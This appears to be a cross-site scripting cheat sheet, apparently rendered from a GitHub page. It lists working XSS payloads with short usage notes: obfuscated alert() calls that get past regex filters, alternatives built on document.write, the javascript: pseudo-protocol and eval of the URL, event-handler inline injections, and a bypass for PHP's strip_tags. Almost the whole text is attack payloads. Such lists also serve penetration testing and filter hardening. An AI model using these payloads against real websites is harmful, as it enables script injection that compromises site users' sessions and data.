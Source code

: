 
## Alert Obfuscation
Use to trick several regular expression (regex) filters. It might be combined with previous 
alternatives (above). The shortest option `top` can also be replaced by `window`, `parent`, 
`self` or `this` depending on context.
```
(alert)(1)
a=alert,a(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top[8680439..toString(30)](1)
```

## Alert Alternative – Write & Writeln
Use as an alternative to alert, prompt and confirm. If used within a HTML vector it can be used as it is but if it’s a JS injection the full `document.write` form is required. Replace `&` with `%26` and `#` with `%23` in URLs. Write can be replaced by writeln. 
write`XSSed!`
write`<img/src/o&#78error=alert&lpar;1)&gt;`
write('\74img/src/o\156error\75alert\501\51\76')


## Alert Alternative – Open Pseudo-Protocol
Use as an alternative to alert, prompt and confirm. Above tricks applies here too. Only the 
second one works in Chromium-based browsers and requires `<iframe name=0>`.
top.open`javas\cript:al\ert\x281\x29`
top.open`javas\cript:al\ert\x281\x29${0}0`


## Alert Alternative - Eval + URL
Use as an alternative to call alert, prompt and confirm. First payload is the primitive form 
while the second replaces eval with the value of id attribute of vector used. URL must be in 
one of the following ways, in URL path after PHP extension or in fragment of the URL. Plus 
sign (+) must be encoded in URLs.
```
<svg onload=eval(" ' "+URL)> 
<svg id=eval onload=top[id](" ' "+URL)>
PoC URL must contain one of the following:
=> FILE.php/'/alert(1)//?...
=> #'/alert(1)
```


## Alert Alternative - Eval + URL with Template Literal
```${alert(1)}<svg onload=eval('`//'+URL)>```


## HTML Injection - Inline Alternative
Use to bypass blacklists. 
```
"onpointerover=alert(1) //
"autofocus onfocusin=alert(1) //
```

## Strip-Tags Based Bypass
Use when filter strips out anything between a < and > characters like PHP’s strip_tags() 
function. Inline injection only.
```
"o<x>nmouseover=alert<x>(1)//
"autof<x>ocus o<x>nfocus=alert<x>(1)//